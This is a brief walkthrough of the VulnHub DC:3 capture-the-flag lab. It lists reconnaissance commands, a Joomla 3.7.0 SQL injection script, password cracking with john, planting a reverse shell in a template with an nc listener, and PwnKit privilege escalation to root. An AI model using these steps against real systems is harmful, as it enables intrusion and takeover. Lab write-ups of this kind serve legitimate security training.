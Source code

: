 
# DC:3 Walkthrough 

**VulnHub Link:** [DC:3](https://www.vulnhub.com/entry/dc-32,312/)
**Difficulty:** Easy
**Release Date:** 25 Apr 2020

## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.131
joomscan  --url "http://192.168.100.134/"

## 2.Exploitation

joomla 3.7.0 exploit ---> install https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/DC%3A3/joomblah.py

python joomblah.py http://192.168.100.134

hash found --> hash > hash.txt

## 3. Hash decoding
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

password found : scoopy

logged in and we changed content of index.php in templates section to reverse_shell.php

and before executing --> rlwrap nc -nvlp 1234

shell opened 

pkexec version is 0.105 --> Pwnkit Exploit

## 4. Previlige Escalation

from https://www.exploit-db.com/exploits/50689 --> we did all what is written there

and BINGO!!! Root session opened 

Root flag Captured..!
